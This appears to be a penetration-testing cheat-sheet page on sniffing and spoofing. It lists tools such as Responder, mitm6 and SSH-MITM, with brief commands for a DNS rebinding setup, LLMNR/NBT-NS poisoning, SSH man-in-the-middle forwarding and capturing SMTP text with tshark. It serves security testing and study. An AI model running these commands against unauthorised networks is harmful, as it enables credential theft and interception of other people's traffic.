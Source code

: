 # Sniffing & Spoofing

- [Resources](#resources)

## Table of Contents

- [FakeDns](#fakedns)
- [fakessh](#fakessh)
- [Responder](#responder)
- [SSH-MITM](#ssh-mitm)
- [tshark](#tshark)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| FakeDns | A regular-expression based python MITM DNS server with support for DNS Rebinding attacks | https://github.com/Crypt0s/FakeDns |
| FakeSSH | A dockerized fake SSH server honeypot written in Go that logs login attempts. | https://github.com/fffaraz/fakessh |
| mDNS | A mDNS sniffer and interpreter. | https://github.com/eldraco/Sapito |
| mitm6 | mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. | https://github.com/dirkjanm/mitm6 |
| mitmproxy | mitmproxy is an interactive, SSL/TLS-capable intercepting proxy with a console interface for HTTP/1, HTTP/2, and WebSockets. | https://github.com/mitmproxy/mitmproxy |
| Responder | IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay. | https://github.com/lgandx/Responder |
| SSH-MITM | ssh mitm server for security audits supporting public key authentication, session hijacking and file manipulation | https://github.com/ssh-mitm/ssh-mitm |

## FakeDns

> https://github.com/Crypt0s/FakeDns

### DNS Rebind Attack

```c
$ cat fake.conf
A <DOMAIN> 127.0.0.1 1%<LHOST>
```

#### Start the Server

```c
$ sudo python3 fakedns.py -c fake.conf --rebind
```

#### Test

```c
nslookup > server <LHOST>
Default server: <LHOST>
Address: <LHOST>#53
> <FAKE_DOMAIN>
Server:         <LHOST>
Address:        <LHOST>#53

Name:   <FAKE_DOMAIN>
Address: 127.0.0.1
*## server can't find <FAKE_DOMAIN>: NXDOMAIN
> <FAKE_DOMAIN>
Server:         <LHOST>
Address:        <LHOST>#53

Name:   <FAKE_DOMAIN>
Address: <LHOST>
*## server can't find <FAKE_DOMAIN>: NXDOMAIN
>
```

## fakessh

> https://github.com/fffaraz/fakessh

```c
$ go install github.com/fffaraz/fakessh@latest
$ sudo setcap 'cap_net_bind_service=+ep' ~/go/bin/fakessh
$ ./fakessh 
```

## Responder

> https://github.com/lgandx/Responder

```c
$ sudo responder -I <INTERFACE>
```

## SSH-MITM

```c
$ ssh-mitm server
```

```c
$ ssh-mitm server --remote-host <RHOST>
$ socat TCP-LISTEN:<RPORT>,fork TCP:127.0.0.1:10022
```

## tshark

### Capturing SMTP Traffic

```c
$ tshark -i <INTERFACE> -Y 'smtp.data.fragments' -T fields -e 'text'
```
